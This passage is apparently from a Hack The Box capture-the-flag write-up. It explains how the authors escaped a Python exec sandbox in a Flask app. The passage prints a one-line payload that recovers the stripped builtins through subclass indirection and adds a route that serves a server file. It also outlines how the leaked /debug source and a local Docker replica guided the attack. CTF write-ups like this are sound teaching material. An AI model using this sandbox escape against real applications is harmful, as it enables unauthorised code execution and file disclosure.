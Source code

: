 That in turn has the `base64` encoded value of the `zlib` compression of what we wanted the target app to execute.
Following is the code that was evaluated by the application in the sandbox environment.

```py
exec("import flask,os;flask.current_app.add_url_rule('/w','w',open(os.listdir('.')[-1]).read)",{'__builtins__':[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__][0]()._module.__builtins__})
```
The idea we used is to recreate an `exec` with the `__builtins__` that were stripped in the first place. We got those using indirection with the following:
`[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__][0]()._module.__builtins__`

More about this can be found in the complete walk-through of our attack that we attach at the end of this post.

## Tools and Strategy
Although we have already presented the solution in the previous paragraph we now show the tools and the strategy used to achieve such a result.

During the attack the principal tools used were **Docker** and **Jupyter**. As it can be seen from the repository in which we have hosted our write-up.

As far as the strategy is concerned we started with an inspection of the html code for the index page. Here we saw a comment with an endpoint `/debug`. At such a URL we found the code of the application.

This was just the start of our journey.

From the source code found we saw that Flask had been used for the application.

It is always a good approach trying to recreate an infrastructural context similar to the one the target application is running into.

For this reason we created an environment using Docker and make the relevant experiments into such context.

We made some adjustments to the original code. Not having all the app sources at our disposal we made the functions entitled to render responses to instead give back strings. The aim here is knowing at least how the application logic works.

Next we present the write-up in its entirety. The reader that wants to interactively execute it can use the Github repository we have made available.



# THE COMPLETE WRITE-UP

## Preface

This notebook has the aim to show the steps that made us reach the flag in this Hack The Box challenge.

Since some of the cells require inputs from the user we suggest to run the notebook one cell at a time.
